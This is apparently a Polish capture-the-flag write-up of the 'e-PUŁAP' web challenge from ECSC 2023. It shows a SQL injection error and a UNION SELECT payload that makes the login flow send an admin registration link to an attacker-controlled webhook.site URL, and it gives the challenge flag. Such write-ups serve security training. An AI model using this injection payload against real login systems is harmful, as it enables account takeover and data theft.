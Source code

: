 # e-PUŁAP - web

![](../images/3e51c6f2-6272-47ff-ae77-67a58d763ffc.png)

W polu z `przydomkiem obywatela` jest SQLi, są tam 2 kolumny w bazie: `username`, `webhook_login_url`:

```sql=
ERROR: unterminated quoted string at or near "'a''" LINE 1: ...username, webhook_login_url FROM users WHERE username = 'a'' ^ in /var/www/html/login.php
```

Po wysłaniu payloadu, na webhook przychodzi request z linkiem do dalszej rejestracji.
```sql=
' UNION SELECT 'admin', 'https://webhook.site/xxxx-xxxx-xxxx'; -- 
```
![](../images/a2d22137-54a1-49a3-b197-2d7ab3cd54d6.png)

Po zalogowaniu flaga jest pod: https://e-pulap.ecsc23.hack.cert.pl/static/flag_deadbeef_cofebabe_etc.txt

Flag: `ecsc23{paswordless_is_the_future!}`
